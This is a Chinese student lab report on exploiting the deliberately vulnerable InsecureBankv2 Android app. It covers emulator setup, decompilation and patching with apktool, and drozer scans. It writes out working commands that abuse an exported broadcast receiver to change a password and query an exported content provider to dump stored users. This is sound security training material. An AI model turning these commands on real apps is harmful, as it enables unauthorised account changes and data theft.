

## 实验目的

* 理解 Android 经典的组件安全和数据安全相关代码缺陷原理和漏洞利用方法；
* 掌握 Android 模拟器运行环境搭建和 `ADB` 使用；

## 实验环境

* 测试设备：Android Studio for macOS创建的Nexus 5X API 26

* 主机设备：macOS 10.15.7

  - 版本信息

    - python 2.7.18
    - pip 20.3.4 
    - pipenv, version 2021.5.29
    - drover2.4.4

## 实验要求

* 详细记录实验环境搭建过程；
* 至少完成以下 [实验](https://github.com/c4pr1c3/Android-InsecureBankv2/tree/master/Walkthroughs) ：
  - [x] Developer Backdoor
  - [x] Insecure Logging
  - [x] Android Application patching + Weak Auth
  - [x] Exploiting Android Broadcast Receivers
  - [x] Exploiting Android Content Provider
  
  - [x] （可选）使用不同于 [Walkthroughs](https://github.com/c4pr1c3/Android-InsecureBankv2/tree/master/Walkthroughs) 中提供的工具或方法达到相同的漏洞利用攻击效果；
    - 推荐 [drozer](https://github.com/mwrlabs/drozer)

## 实验过程

### 环境搭建

- 下载并安装最新的 apk 文件

- 设置**AndroLab**服务器

  ```bash
  # 安装pip2
  (详细安装过程见「遇到的问题-1&2」)
  
  # 安装必要的Python所需的库
  pipenv install -r requirements.txt --two
  pipenv install
  pipenv shell
  
  # 运行python服务器（不要退出）
  python app.py
  ```

  

- 根据**Usage Guide.pdf**创建一个AVD，通过`homebrew`安装`adb`

  ```bash
  # 安装adb
  
  ## 安装brew
  ### 特别特别慢，在知乎找到了自动化脚本安装，滑跪[参考文献5]
  /bin/bash -c "$(curl -fsSL ttps://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"
  
  ## 通过brew安装adb
  ### 一开始执行brew cask install android-platform-tools，显示 Unknown command: cask，删掉cask即可[参考文献6]
  brew install android-platform-tools
  ```

- 用`adb`连接模拟器并安装`InsecureBankv2.apk`

  ```bash
  # 连接
  adb connect 192.168.56.1:8888
  # cd到InsecureBankv2.apk所在目录
  # 安装
  adb install InsecureBankv2.apk
  ```

  

- 下载配置文件

> https://github.com/dineshshetty/Android-InsecureBankv2
>
> https://github.com/skylot/jadx/releases/download/v1.2.0/jadx-1.2.0.zip
>
> https://github.com/pxb1988/dex2jar/releases/download/2.0/dex-tools-2.0.zip
>
> https://github.com/appium-boneyard/sign/archive/refs/heads/master.zip
>
> https://ibotpeaches.github.io/Apktool/install/

### 反编译

- 将下载的dex2jar放到Android-InsecureBankv2-master目录下，进行反编译

```bash
# 解压apk文件
unzip InsecureBankv2.apk
# 将calsses.dex转换为classes.jar
cp classes.dex dex2jar
cd dex2jar
chmod +x d2j-dex2jar.sh
chmod +x d2j_invoke.sh
sh d2j-dex2jar.sh classes.dex
```

- 使用`jadx-1/bin/jadx-gui`打开`classes-dex2jar.jar`

  

### 漏洞利用实验

#### Developer Backdoor

- 找到漏洞

  - 反编译
  - 在**DoLogin**中找到

  

- 利用漏洞

  

#### Insecure Logging

- 发现漏洞

  - 反编译
  - 在**ChangePassword**中发现新密码会被输出

  

- 利用漏洞

  

#### Android Application patching + Weak Auth

- 发现漏洞

  - 用apktool反编译InsecureBankv2.apk

    `apktool d InsecureBankv2.apk`

  - 看到**is_admin**为no

    

- 利用漏洞

  ```bash
  # 修改is_admin中的no为yes
  
  # 用apktool编译InsecureBankv2
  apktool b InsecureBankv2
  
  #用apksigner签名
  ## 创建密钥库
  keytool -genkey -v -keystore jerry.keystore -alias jerryKeystore -keyalg RSA -keysize 2048 -validity 10000
  ## 签名
  jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore jerry.keystore InsecureBankv2/dist/InsecureBankv2.apk jerryKeystore
  ## 确认签名成功
  jarsigner -verify -verbose -certs InsecureBankv2.apk
  
  # 安装InsecureBankv2.s.apk到模拟器
  adb install InsecureBankv2.s.apk
  ```

  

#### Exploiting Android Broadcast Receivers

- 发现漏洞

  - 反编译

  - 在**AndroidManifest.xml** 中找到

    

  - 在**ChangePassword**中找到传递的参数

    

  - 在**MyBroadCastReceiver**中找到参数传递语句

    

- 利用漏洞

  ```bash
  # 进入adb shell
  adb shell
  
  # 发送命令
  am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
  ```

  

  得到的短信如下

  

  使用Dinesh@123!还是无法登录，但可以根据短信内容使用原密码登录

#### Exploiting Android Content Provider

- 发现漏洞

  - 反编译

  - 在**AndroidManifest.xml**中找到

    

  - 在**TrackUserContentProvider**中找到相关参数

    

- 利用漏洞

  ```bash
  # 进入adb shell
  adb shell
  
  # 发送命令
  content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  ```

  

### Drozer漏洞利用攻击

- 环境配置

  >  下载配置文件
  >
  > https://github.com/FSecureLABS/drozer/releases/tag/2.4.4
  >
  > https://github.com/FSecureLABS/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk

  ```bash
  # 安装drozer
  git clone https://github.com/FSecureLABS/drozer.git
  cd drozer
  pipenv shell
  python setup.py bdist_wheel
  
  # 安装代理
  adb install drozer-agent-2.3.4.apk
  ```

  在模拟器上开启端口31415

  

- 启动drozer

  ```bash
  # 开启端口转发
  adb forward tcp:31415 tcp:31415
  # 连接控制器
  drozer console connect
  ```

  

- 使用drozer实现**Exploiting Android Broadcast Receivers**

  ````bash
  # 查看安装包信息
  dz> run app.package.info -a com.android.insecurebankv2
  Package: com.android.insecurebankv2
    Application Label: InsecureBankv2
    Process Name: com.android.insecurebankv2
    Version: 1.0
    Data Directory: /data/user/0/com.android.insecurebankv2
    APK Path: /data/app/com.android.insecurebankv2-WozMHWnzs14lw4sxsI0wtQ==/base.apk
    UID: 10090
    GID: [3003]
    Shared Libraries: null
    Shared User ID: null
    Uses Permissions:
    - android.permission.INTERNET
    - android.permission.WRITE_EXTERNAL_STORAGE
    - android.permission.SEND_SMS
    - android.permission.USE_CREDENTIALS
    - android.permission.GET_ACCOUNTS
    - android.permission.READ_PROFILE
    - android.permission.READ_CONTACTS
    - android.permission.READ_PHONE_STATE
    - android.permission.READ_CALL_LOG
    - android.permission.ACCESS_NETWORK_STATE
    - android.permission.ACCESS_COARSE_LOCATION
    - android.permission.READ_EXTERNAL_STORAGE
    Defines Permissions:
    - None
  
  # 查看可攻击面
  dz> run app.package.attacksurface com.android.insecurebankv2
  Attack Surface:
    5 activities exported
    1 broadcast receivers exported
    1 content providers exported
    0 services exported
      is debuggable
      
  # 查看broadcast receivers exported
  dz> run app.broadcast.info -a com.android.insecurebankv2
  Package: com.android.insecurebankv2
    com.android.insecurebankv2.MyBroadCastReceiver
      Permission: null
  
  # 发送信息实现漏洞利用
  run app.broadcast.send --action theBroadcast --component com.android.insecurebankv2 com.android.insecurebankv2.MyBroadCastReceiver --extra string phonenumber 5554  --extra string newpass Dinesh@123!
  ````

  

- 使用dorzer实现**Exploiting Android Content Provider**

  ```bash
  # 查看可攻击面
  dz> run app.package.attacksurface com.android.insecurebankv2
  Attack Surface:
    5 activities exported
    1 broadcast receivers exported
    1 content providers exported
    0 services exported
      is debuggable
  
  # 查看content providers exported
  dz> run app.provider.info -a com.android.insecurebankv2
  Package: com.android.insecurebankv2
    Authority: com.android.insecurebankv2.TrackUserContentProvider
      Read Permission: null
      Write Permission: null
      Content Provider: com.android.insecurebankv2.TrackUserContentProvider
      Multiprocess Allowed: False
      Grant Uri Permissions: False
  
  # 扫描可能数据泄露的URI路径
  dz>  run scanner.provider.finduris -a com.android.insecurebankv2
  Scanning com.android.insecurebankv2...
  Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider/
  Unable to Query  content://com.google.android.gms.games
  Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider
  Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
  Unable to Query  content://com.google.android.gms.games/
  
  Accessible content URIs:
    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
  
  # 从URI中检索信息
  run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  ```

  

### 遇到的问题

1. 搭建环境时，设置**AndroLab**服务器-安装必要的Python所需的库报错：

   

- 解决

  应该是pipenv for kali的版本问题，更换在本机上进行试验（macOS 10.15.7）

  

2. 搭建环境时，设置**AndroLab**服务器-运行python服务器报错：

   

- 解决

  - 回看自己的命令发现安装pip时使用的语句是`apt install pip`，执行`pip -V`发现自己安装了pip3，应该安装pip2

    ```bash
    # 安装pip2(踩了好几个雷，最终用参考文献1和报错信息安装成功了)
    curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
    sudo python2 get-pip.py
    ```

  - 检查安装结果

    ```bash
    pip2 -V
    # pip 7.1.2 from /usr/local/lib/python2.7/dist-packages/pip-7.1.2-py2.7.egg (python 2.7)
    ```

  - 重新安装库并执行**app.py**

  - Python的依赖环境安装失败

    

  - 反馈老师，更新了代码，解决

    

3. signapk签名失败

   下载sign.jar并执行`java -jar sign.jar InsecureBankv2.apk`时报错

   

   改用在 https://github.com/appium-boneyard/sign 下载的**sign1.0.jar**重新对apk签名，得到InsecureBankv2.s.apk，但是无法通过adb install安装到模拟器

- 解决
  - 看了github上相关的issues有同样的问题，估计是signapk年久失修了，改用评价不错的**apksigner**，成功

4. Drozer安装报错

   

- 解决

  ```bash
  # 修改setup.py 128行
  ## return subprocess.check_output(version_cmd).split('-', 1)[0]
  return subprocess.check_output(version_cmd, shell=True).split('-', 1)[0]
  
  # 安装依赖
  wget https://github.com/FSecureLABS/drozer/releases/download/2.4.4/drozer-2.4.4-py2-none-any.whl
  apt-get --assume-yes install python-pip
  pip2 install wheel
  pip2 install pyyaml
  pip2 install pyhamcrest
  pip2 install protobuf 
  pip2 install pyopenssl 
  pip2 install twisted
  pip2 install service_identity
  pip2 install drozer-2.4.4-py2-none-any.whl
  ```

### 参考文献

https://www.cnblogs.com/luocodes/p/13885716.html

https://github.com/dineshshetty/Android-InsecureBankv2

https://github.com/c4pr1c3/Android-InsecureBankv2

https://brew.sh/index_zh-cn

https://zhuanlan.zhihu.com/p/111014448

https://blog.csdn.net/weixin_45598506/article/details/115521958

https://github.com/FSecureLABS/drozer/issues/357

https://github.com/FSecureLABS/drozer/issues/367

https://www.cnblogs.com/zhaijiahui/p/7243807.html

https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf

### 实验心得

前几章没有什么可写的「遇到的问题」这一章遇够了...安装环境九九八十一难....

drozer好用，自动化工具就是🐂
